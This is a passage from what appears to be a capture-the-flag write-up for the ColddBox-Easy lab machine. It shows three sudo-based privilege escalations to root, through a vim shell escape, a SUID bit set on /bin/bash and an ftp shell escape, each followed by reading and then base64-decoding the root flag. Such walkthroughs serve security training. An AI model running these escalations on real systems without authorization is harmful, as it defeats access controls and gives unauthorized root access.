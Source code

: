 ```
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/vim -c ':!/bin/bash'
root@ColddBox-Easy:~# id; cat /root/root.txt
uid=0(root) gid=0(root) grupos=0(root)
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Using `chmod`, we can set `/bin/bash` with the `suid` bit.

```
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod +s /bin/bash
c0ldd@ColddBox-Easy:~$ /bin/bash -p
bash-4.3# id; cat /root/root.txt
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) egid=0(root) grupos=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(c0ldd)
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

And finally, with `ftp`, we should be able to break out of it to run a `bash` session as `root`.

```
c0ldd@ColddBox-Easy:~$ sudo ftp
ftp> !/bin/bash
root@ColddBox-Easy:~# id; cat /root/root.txt
uid=0(root) gid=0(root) grupos=0(root)
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

And, out of curiosity, let's decode that flag.

```
root@ColddBox-Easy:~# cat /root/root.txt | base64 -d; echo
¡Felicidades, máquina completada!
```

Which translates to:

```
Congratulations, machine completed!
```



